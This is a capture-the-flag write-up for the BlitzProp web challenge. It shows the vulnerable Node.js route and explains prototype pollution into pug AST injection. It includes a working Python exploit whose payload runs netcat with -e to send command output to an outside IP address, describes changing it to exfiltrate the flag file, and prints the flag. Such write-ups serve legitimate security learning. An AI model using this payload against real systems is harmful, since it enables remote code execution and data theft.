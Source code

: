 # BlitzProp

> *A tribute page for the legendary alien band called BlitzProp!*
> *This challenge will raise 33 euros for a good cause.*

Taking a look at the website, it seems like a simple node.js web application which contains a single user input, hinting towards the hidden vulnerability

![image-20210423163531775](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/Cyber-Apocalypse-2021/images/BlitzProp-1.png?raw=true)

Navigating deeper to the given source code, there's the most important file to pay attention to, which is `index.js` inside the `routes` directory

```js
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
	process.mainModule.require('child_process').execSync(`whoami`);
    const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});

module.exports = router;
```

At first I thought it was a type of classic Prototype Pollution attacks through the `unflatten` user input, but I couldn't find a way to make the pollution

After a little bit of researching I quickly found a useful article relating to this kind of vulnerability, which is AST Injection : https://blog.p6.is/AST-Injection/#Exploit

For pug template engine, when you insert AST into the `Object.prototype.block`, the compiler adds it to the buffer by referring to the value

With pug, each process is separated into a separate module. AST generated by `pug-parser` is passed to the `pug-code-gen` and made into a function. Finally, it will be executed

Along with other detailed and useful information from the article, an attack for this scenario can be configured like this :

```python
import requests

TARGET_URL = 'http://139.59.176.252:30959'

r = requests.post(TARGET_URL+'/api/submit', json = {
    "song.name":"1. Not Polluting with the boys",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`nc 1.52.183.253 4444 -e ls -la`)"
    }
})

print(r.status_code)
print(r.text)
```

Using the OAST technique, we get the content of the web server directory :

![image-20210423171244661](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/Cyber-Apocalypse-2021/images/BlitzProp-2.png?raw=true)

As we can see, the flag file is right in the current directory. I simply recrafted the script and tried to exfiltrate the file content, I changed the injecting command into `cat flag*` and triggered the out-of-band interaction once again

![image-20210423172049890](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/Cyber-Apocalypse-2021/images/BlitzProp-3.png?raw=true)

Flag :

```
CHTB{p0llute_with_styl3}
```

